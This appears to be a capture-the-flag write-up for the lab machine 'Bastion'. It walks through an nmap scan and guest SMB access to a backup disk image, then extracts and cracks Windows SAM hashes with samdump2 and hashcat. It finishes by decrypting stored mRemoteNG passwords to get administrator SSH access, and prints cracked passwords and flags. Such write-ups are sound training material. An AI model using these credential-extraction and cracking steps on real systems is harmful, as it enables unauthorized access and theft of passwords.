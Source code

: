 # Bastion

## User

### Scan
`nmap -sC -sV -p- 10.10.10.134` outputs the following:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-17 17:43 GMT
Nmap scan report for 10.10.10.134
Host is up (0.087s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE      VERSION
22/tcp  open  ssh          OpenSSH for_Windows_7.9 (protocol 2.0)
| ssh-hostkey: 
|   2048 3a:56:ae:75:3c:78:0e:c8:56:4d:cb:1c:22:bf:45:8a (RSA)
|   256 cc:2e:56:ab:19:97:d5:bb:03:fb:82:cd:63:da:68:01 (ECDSA)
|_  256 93:5f:5d:aa:ca:9f:53:e7:f2:82:e6:64:a8:a3:a0:18 (ED25519)
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -40m47s, deviation: 1h09m15s, median: -48s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-05-17T19:42:48+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-05-17 17:42:50
|_  start_date: 2019-05-15 13:32:40

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.49 seconds
```

SSH will probably be used later on, but SMB seems like a good starting place.

### SMB

The `smb-security-mode` section of the scan mentions a *guest* user. That doesn't sound like an authenticated user, so maybe we can get access to some shares without having to enter a password.

```
smbmap -H 10.10.10.134 -u guest
```

![SMB Map](images/smbmap.png "Img")

The `Backups` share looks interesting. An exposed backup file might give us enough information to get an initial foothold. 

```
smbclient \\\\10.10.10.134\\Backups -U guest
```

No password is required. Navigating to `\WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 12351\` reveals a backup Virtual Hard Disk. It is a very large file, but we should be able to mount it remotely instead of having to download it.

To mount the `Backups` share, we can use `cifs-utils`. Install with `apt install cifs-utils` and create the directory where you want the share to be mounted. The share can be mounted with the `mount` command.

```
mount -t cifs -o "domain=WORKGROUP,username=guest" \\\\10.10.10.134\\Backups /mnt/backup/
```

Now the `.vhd` can be mounted. I installed `libguestfs-tools` with `apt install libguestfs-tools`. Notice that there are two `.vhd` files, but when trying to mount the smaller one an error pops up saying there is no OS found. The larger one is the only one I could get to mount.

```
guestmount --add WindowsImageBackup/L4mpje-PC/Backup\ 2019-02-22\ 124351/9b9cfbc4-369e-11e9-a17c-806e6f6e6963.vhd --inspector --ro /mnt/vhd/
```

### SAM

If we were really lucky, `root` and `user` proof would be right there in the backup, but of course it's not that easy. I looked around for some user slipups like password backups or SSH keys to no avail. However, extracting hashes from the backup does seem to work. `samdump2` is a great tool that will do all of the work for us.

```
cd /mnt/vhd/Windows/System32/config
samdump2 SYSTEM SAM
```

You can work on cracking the hash with whatever tool you want, I used Hashcat. My Macbook is a little finicky with Hashcat, so you may not need the `-D` flag.

```
hashcat -m 1000 -a 0 hash.txt rockyou.txt -D 1
```

![Hash](images/hash.png "Img")

The `L4mpje` user's hash was cracked and we can see that the pre-hashed value is `bureaulampje`. My first thought was to try using that password over SSH, and it worked! We have `user.txt`.

```
9bfe57d5c3309db3a151772f9d86c6cd
```

## Root

### mRemoteNG

One applications seems out of place on this mostly fresh Windows machine: mRemoteNG. A quick search for exploit of this app yields a great number of results. [This](http://hackersvanguard.com/mremoteng-insecure-password-storage/) article is really informative and informs us that the hash used to encrypt all of the passwords stored in the application can be completely overwritten! That sounds great, but we need the GUI to use that method.

The second method is to use a Ruby script that can decrypt the `confCons.xml` file online. We just need to find that file. The `AppData` directory is not located where you might expect it to be on this machine. Fortunately, predefined variables make it really easy to find. Navigate to `%AppData%/mRemoteNg` to find the `confCons.xml` file.

Running the Ruby script provides no output or solution! Apparently it is a pretty old script that has been made obsolete. We could try the third option that suggests using Metasploit, but it requires a meterpreter shell and this box seems to have Windows Defender enabled.

I was hoping for a more elegant solution, but I settled for exporting the `confCons.xml` file and transferring it to a Windows machine I have running. I installed mRemoteNG and followed the article's description of the exploit to the letter:

1. Install mRemoteNG
2. Replace the `confCons.xml` *Protected* parameter with `GiUis20DIbnYzWPcdaQKfjE2H5jh//L5v4RGrJMGNXuIq2CttB/d/BxaBP2LwRhY`
3. Load the modified connections file
4. Create an external tool that calls CMD.exe with arguments `/k echo %password%`

![mRemoteNG](images/remote.png)

To test if this worked, run the external tool on the `L4mpje` user. A new window should pop up with the password we found earlier. Running the same tool on the `DC` user gives us a password of `thXLHM96BeKL0ER2`. That password can be used to SSH into the box as `Administrator` and get `root.txt`.

```
958850b91811676ed6620a9c430e65c8
```
